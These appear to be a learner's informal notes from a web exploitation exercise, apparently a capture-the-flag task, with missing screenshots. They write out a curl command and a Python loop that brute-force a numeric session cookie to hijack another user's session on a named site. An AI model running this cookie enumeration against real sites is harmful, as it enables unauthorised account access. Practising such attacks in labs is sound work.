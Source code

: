 ![[Pasted image 20211225165213.png]]
![[Pasted image 20211225165341.png]]
#webexploitation 

![[Pasted image 20211225165257.png]]

if I change the number it will probably work

![[Pasted image 20211225165319.png]]
it's different now

should I write a script to automate this?

...yeah, it goes over 100
![[Pasted image 20211225165946.png]]
`curl -X GET --cookie "speek_sess_id=1" https://wespeektogether.com/thedazman/status/74635478354`
alright...
python help me

```python
import os

for i in range(1,100):
	print(i)
	os.system("curl -X GET --cookie \"speek_sess_id="+str(i)+"\" https://wespeektogether.com/thedazman/status/74635478354")
```
	
I'm a lazy sloth when it comes to python, I just love writing inefficient code and letting my my computer chug along.

![[Pasted image 20211225170534.png]]
yeah, that's alright

see you in a while...
![[Pasted image 20211225171105.png]]
line 2417

aww man the `print(i)` didnt' work
I want to say something bad, but I'm too nice
___
![[Pasted image 20211225171635.png]]
I'll just look at a cute goose
`♪~~~ so cute!!!`

alright I'm feeling way better
![[Pasted image 20211225172339.png]]
just straight up ran it this time
![[Pasted image 20211225172301.png]]

![[Pasted image 20211225172426.png]]
changed it to 49 and reloaded the page
![[Pasted image 20211225172447.png]]
